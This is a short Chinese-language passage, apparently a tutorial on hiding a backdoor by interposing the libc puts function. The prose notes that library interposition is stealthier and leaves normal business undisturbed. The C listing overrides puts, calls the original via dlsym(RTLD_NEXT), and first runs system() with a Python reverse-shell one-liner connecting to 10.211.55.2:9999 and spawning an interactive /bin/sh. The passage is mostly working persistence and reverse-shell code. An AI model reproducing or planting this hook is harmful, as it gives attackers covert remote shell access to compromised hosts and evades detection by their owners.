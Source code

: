 [![](assets/1708920000-7e097bf7640a96378ab6b5b1ef2261f0.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214152619832.png)

如果完全使用恶意语句接管 puts 函数可能会对正常运行的应用造成影响

通过库打桩的方式进行拦截 (interposition) 可以更加隐蔽并且不影响正常业务

整体逻辑如下：

-   覆盖 puts 函数并在内部重写
-   把原函数指针赋值给一个变量
-   执行后门代码
-   执行原函数
-   正常返回值

```plain
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>

int puts(const char *message) {
  int (*new_puts)(const char *message);
  int result;
  new_puts = dlsym(RTLD_NEXT, "puts");
  system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.211.55.2\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");
  result = new_puts(message);
  return result;
}
```
